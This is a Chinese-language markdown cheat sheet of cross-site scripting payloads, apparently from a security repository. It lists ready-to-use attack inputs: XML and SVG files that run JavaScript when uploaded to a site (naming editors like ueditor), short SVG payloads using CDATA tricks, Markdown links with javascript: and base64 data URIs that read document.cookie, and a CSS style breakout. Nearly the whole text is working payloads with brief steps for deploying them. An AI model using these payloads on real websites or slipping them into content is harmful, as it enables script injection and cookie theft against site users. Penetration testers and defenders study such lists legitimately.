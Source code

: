 ### XML文件执行javascript

```xml
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>
```
>将上述代码保存为x.xml，然后将x.xml上传到一个网站目录下，访问http://url/x.xml，即可触发javascript。此漏洞常见于一些允许上传xml的系统，如ueditor编辑器。

### SVG文件执行javascript

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert(document.domain);
  </script>
</svg>
```

### SVG文件执行javascript (短payload)

```javascript
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>

<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>
<svg><title><![CDATA[</title><script>alert(3)</script>]]></svg>
```

### Markdown格式XSS

```csharp
[a](javascript:prompt(document.cookie))
[a](j a v a s c r i p t:prompt(document.cookie))
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](javascript:window.onerror=alert;throw%201)
```

>更多的payload请参考同目录下的文件夹./files



### CSS中的XSS

```html
<!DOCTYPE html>
<html>
<head>
<style>
div  {
    background-image: url("data:image/jpg;base64,<\/style><svg/onload=alert(document.domain)>");
    background-color: #cccccc;
}
</style>
</head>
  <body>
    <div>lol</div>
  </body>
</html>
```
